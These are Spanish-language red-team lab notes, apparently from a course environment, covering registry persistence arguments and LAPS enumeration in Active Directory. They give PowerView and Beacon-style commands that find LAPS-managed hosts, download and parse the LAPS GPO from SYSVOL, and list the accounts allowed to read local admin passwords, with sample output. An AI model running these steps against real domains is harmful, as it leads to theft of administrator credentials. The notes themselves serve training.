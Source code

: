 | Argumento | Explanation                                         |
| --------- | --------------------------------------------------- |
| -k        | es la clave del registro a modificar                |
| -v        | el nombre de la clave de registro que se va a crear |
|           |                                                     |

tambien podemos usar la colmena de **"HKLM"** pero para ella necesitamos privilegios de administrador, ya que es la colmena general de registros del equipo y no personal del usuario como lo es **"HKCLU"**.

### Laps
tag : #laps

**Utilizando Powerview**
```shell
# Identificar si la maquina actual que comprometimos es un cliente de laps
ls C:\Program Files\LAPS\CSE

#Busque objetos del dominio donde la propiedad `ms-Mcs-AdmPwdExpirationTime` no sea nula (cualquier usuario de dominio puede leer esta propiedad).
powershell Get-DomainObject -SearchBase "LDAP://DC=dev,DC=evilcorp,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io

# Identificar posibles GPOS con laps para extraer su propiedad 'gpcfilesyspath' y descargar la configuracion para despues poder parsearla con el modulo 
# GPRegistryPolicyParser.psm1 y la funcion "Parse-PolFile"
powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

download \\dev.evilcorp.local\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol

Parse-PolFile .\Registry.pol

```

Utilizando el cmdlet nativo de laps para administrar 🐌

```shell
# checkeando si esta instalado el cmdlet
powershell Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# Enumerar usuarios de LAPS con permisos para Leer contraseñas en una OU dada
powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=dev,DC=evilcorp,DC=local
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, DEV\Admins. del dominio, DEV\Laps Operators}

```